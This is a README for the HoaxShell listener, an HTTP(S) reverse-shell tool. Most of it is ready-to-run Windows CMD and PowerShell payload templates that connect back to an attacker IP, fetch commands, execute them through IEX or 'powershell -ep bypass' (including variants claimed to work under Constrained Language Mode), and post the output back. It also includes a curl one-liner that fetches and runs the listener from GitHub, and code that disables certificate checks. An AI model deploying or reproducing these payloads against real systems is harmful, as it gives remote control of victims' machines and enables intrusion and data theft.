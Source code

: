 # HoaxShell Listener
[![Python](https://img.shields.io/badge/Python-%E2%89%A5%203.6-yellow.svg)](https://www.python.org/) 
<img src="https://img.shields.io/badge/PowerShell-%E2%89%A5%20v3.0-blue">
<img height="20px" src="https://img.shields.io/badge/Windows%20cmd-%234D4D4D.svg?style=for-the-badge&logo=windows-terminal&logoColor=white">
<img src="https://img.shields.io/badge/Developed%20on-kali%20linux-blueviolet">
<img src="https://img.shields.io/badge/Maintained%3F-Yes-96c40f">  

## Purpose
A standalone version of HoaxShell's listener, mainly created for integration with [RevShells.com](https://revshells.com).  

## Installation
```
pip3 install -r requirements.txt
```
**Important**: The `gnureadline` module is not meant for Windows and it will naturally cause an error if you try to install with pip. Remove `gnureadline` from the requirements.txt to install on Windows.

## Usage
The standalone listener does not include payload generation functions. It is desighed to work in a simple manner with the only required argument being the payload type to expect (payload types and templates listed below).  

You can run the listener by executing `hoaxshell-listener.py` or directly invoking it from the project's repository:
```
# Execute from file
python3 hoaxshell-listener.py -t <payload-type>

# Invoke from repository
python3 -c "$(curl -s https://raw.githubusercontent.com/t3l3machus/hoaxshell/main/revshells/hoaxshell-listener.py)" -t <payload type> -p <port> [-c /your/cert.pem -k /your/key.pem>] 
```

The listener is designed to accept any incoming connection bearing a session id in the form of `eb6a44aa-8acc1e56-629ea455`.  
You can keep the session id's included in the templates or alter them to different values.

## Payload Templates
1. Start the listener with the `--type [-t]` set to one of the available payload types below:  
`cmd-curl | ps-iex | ps-iex-cm | ps-outfile | ps-outfile-cm`
2. Grab the equivalent template and adjust the IP and PORT values. if you change the default port 8080/443 you need to parse it to the listener with `-p`.
3. Execute payload on the target machine.

### http payloads

#### cmd-curl
A brand new payload written in pure Windows CMD that utilizes cURL.
```
@echo off&cmd /V:ON /C "SET ip=192.168.0.71:8080&&SET sid="Authorization: eb6a44aa-8acc1e56-629ea455"&&SET protocol=http://&&curl !protocol!!ip!/eb6a44aa -H !sid! > NUL && for /L %i in (0) do (curl -s !protocol!!ip!/8acc1e56 -H !sid! > !temp!\cmd.bat & type !temp!\cmd.bat | findstr None > NUL & if errorlevel 1 ((!temp!\cmd.bat > !tmp!\out.txt 2>&1) & curl !protocol!!ip!/629ea455 -X POST -H !sid! --data-binary @!temp!\out.txt > NUL)) & timeout 1" > NUL
```

#### ps-iex
PowerShell payload that utilizes IEX.
```
$s='192.168.0.71:8080';$i='14f30f27-650c00d7-fef40df7';$p='http://';$v=IRM -UseBasicParsing -Uri $p$s/14f30f27 -Headers @{"Authorization"=$i};while ($true){$c=(IRM -UseBasicParsing -Uri $p$s/650c00d7 -Headers @{"Authorization"=$i});if ($c -ne 'None') {$r=IEX $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=IRM -Uri $p$s/fef40df7 -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

#### ps-iex-cm
Same as `ps-iex` but will also work if the target system is running on PowerShell Constraint Language Mode.
```
$s='192.168.0.71:8080';$i='bf5e666f-5498a73c-34007c82';$p='http://';$v=IRM -UseBasicParsing -Uri $p$s/bf5e666f -Headers @{"Authorization"=$i};while ($true){$c=(IRM -UseBasicParsing -Uri $p$s/5498a73c -Headers @{"Authorization"=$i});if ($c -ne 'None') {$r=IEX $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=IRM -Uri $p$s/34007c82 -Method POST -Headers @{"Authorization"=$i} -Body ($e+$r)} sleep 0.8}
```

#### ps-outfile
PowerShell payload that writes and executes commands from disc.
```
$s='192.168.0.71:8080';$i='add29918-6263f3e6-2f810c1e';$p='http://';$f="C:\Users\$env:USERNAME\.local\hack.ps1";$v=Invoke-RestMethod -UseBasicParsing -Uri $p$s/add29918 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-RestMethod -UseBasicParsing -Uri $p$s/6263f3e6 -Headers @{"Authorization"=$i});if ($c -eq 'exit') {del $f;exit} elseif ($c -ne 'None') {echo "$c" | out-file -filepath $f;$r=powershell -ep bypass $f -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-RestMethod -Uri $p$s/2f810c1e -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

#### ps-outfile-cm
Same as `ps-outfile` but will also work if the target system is running on PowerShell Constraint Language Mode.
```
$s='192.168.0.71:8080';$i='e030d4f6-9393dc2a-dd9e00a7';$p='http://';$f="C:\Users\$env:USERNAME\.local\hack.ps1";$v=IRM -UseBasicParsing -Uri $p$s/e030d4f6 -Headers @{"Authorization"=$i};while ($true){$c=(IRM -UseBasicParsing -Uri $p$s/9393dc2a -Headers @{"Authorization"=$i}); if ($c -eq 'exit') {del $f;exit} elseif ($c -ne 'None') {echo "$c" | out-file -filepath $f;$r=powershell -ep bypass $f -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=IRM -Uri $p$s/dd9e00a7 -Method POST -Headers @{"Authorization"=$i} -Body ($e+$r)} sleep 0.8}
```

### https Payloads
You can parse certificate and private-key .pem files to the listener with `-c` and `-k` to start it via https.  
To generate self-signed certificates you can use: `openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365`  
Find below the payload templates adjusted to use https.

**For PowerShell payloads**: If you don't supply a trusted certificate to the listener, append this block at the beginning of the payload to disable certificate validation:
```
add-type @"
using System.Net;using System.Security.Cryptography.X509Certificates;                                  
public class TrustAllCertsPolicy : ICertificatePolicy {public bool CheckValidationResult(              
ServicePoint srvPoint, X509Certificate certificate,WebRequest request, int certificateProblem) {return true;}}
"@                                                                                                     
[System.Net.ServicePointManager]::CertificatePolicy = New-Object TrustAllCertsPolicy
```
#### cmd-curl
```
@echo off&cmd /V:ON /C "SET ip=192.168.0.71:443&&SET sid="Authorization: eb6a44aa-8acc1e56-629ea455"&&SET protocol=https://&&curl -fs -k !protocol!!ip!/eb6a44aa -H !sid! > NUL & for /L %i in (0) do (curl -fs -k !protocol!!ip!/8acc1e56 -H !sid! > !temp!\cmd.bat & type !temp!\cmd.bat | findstr None > NUL & if errorlevel 1 ((!temp!\cmd.bat > !tmp!\out.txt 2>&1) & curl -fs -k !protocol!!ip!/629ea455 -X POST -H !sid! --data-binary @!temp!\out.txt > NUL)) & timeout 1" > NUL
```

#### ps-iex
```
$s='192.168.0.71:443';$i='1cdbb583-f96894ff-f99b8edc';$p='https://';$v=Invoke-RestMethod -UseBasicParsing -Uri $p$s/1cdbb583 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-RestMethod -UseBasicParsing -Uri $p$s/f96894ff -Headers @{"Authorization"=$i});if ($c -ne 'None') {$r=iex $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-RestMethod -Uri $p$s/f99b8edc -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

#### ps-iex-cm
```
$s='192.168.0.71:443';$i='11e6bc4b-fefb1eab-68a9612e';$p='https://';$v=Invoke-RestMethod -UseBasicParsing -Uri $p$s/11e6bc4b -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-RestMethod -UseBasicParsing -Uri $p$s/fefb1eab -Headers @{"Authorization"=$i});if ($c -ne 'None') {$r=iex $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-RestMethod -Uri $p$s/68a9612e -Method POST -Headers @{"Authorization"=$i} -Body ($e+$r)} sleep 0.8}
```

#### ps-outfile
```                                                                                                                    
$s='192.168.0.71:443';$i='add29918-6263f3e6-2f810c1e';$p='https://';$f="C:\Users\$env:USERNAME\.local\hack.ps1";$v=Invoke-RestMethod -UseBasicParsing -Uri $p$s/add29918 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-RestMethod -UseBasicParsing -Uri $p$s/6263f3e6 -Headers @{"Authorization"=$i});if ($c -eq 'exit') {del $f;exit} elseif ($c -ne 'None') {echo "$c" | out-file -filepath $f;$r=powershell -ep bypass $f -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-RestMethod -Uri $p$s/2f810c1e -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

#### ps-outfile-cm
```
$s='192.168.0.71:443';$i='e030d4f6-9393dc2a-dd9e00a7';$p='https://';$f="C:\Users\$env:USERNAME\.local\hack.ps1";$v=IRM -UseBasicParsing -Uri $p$s/e030d4f6 -Headers @{"Authorization"=$i};while ($true){$c=(IRM -UseBasicParsing -Uri $p$s/9393dc2a -Headers @{"Authorization"=$i}); if ($c -eq 'exit') {del $f;exit} elseif ($c -ne 'None') {echo "$c" | out-file -filepath $f;$r=powershell -ep bypass $f -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=IRM -Uri $p$s/dd9e00a7 -Method POST -Headers @{"Authorization"=$i} -Body ($e+$r)} sleep 0.8}
```
